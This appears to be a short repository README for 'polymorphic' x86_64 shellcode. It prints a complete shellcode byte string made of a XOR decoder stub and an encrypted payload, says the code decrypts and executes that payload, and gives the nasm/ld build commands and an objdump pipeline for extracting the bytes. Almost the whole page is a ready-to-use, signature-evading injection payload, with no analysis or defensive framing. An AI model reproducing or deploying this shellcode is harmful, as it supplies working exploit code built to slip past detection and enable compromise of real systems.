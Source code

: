 # Polymorphic Shellcode - x86_64

* \xeb\x24\x5e\x48\x83\xec\x29\x48\x8d\x3c\x24\x48\x31\xd2\x52\x5b\xb2\x29\xb3\x53\xac\x31\xd8\xaa\xff\xca\x75\xf8\xff\xe4\x48\x31\xc0\x6a\x3c\x58\x0f\x05\xe8\xd7\xff\xff\xff\x1b\x62\xac\x04\x04\x0d\x09\x1b\xec\x7c\x7c\x31\x3a\x3d\x7c\x20\x3b\x1b\x92\xbc\x5b\x04\x07\x0c\x39\x68\x0b\x5c\x56 

* polsh decrypt the crypted shellcode and execute it

* To assembly & link: nasm -f elf64 polsh.asm -o polsh.o && ld -o polsh polsh.o

* To obtain the corresponding shellcode: objdump -d ./polsh | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
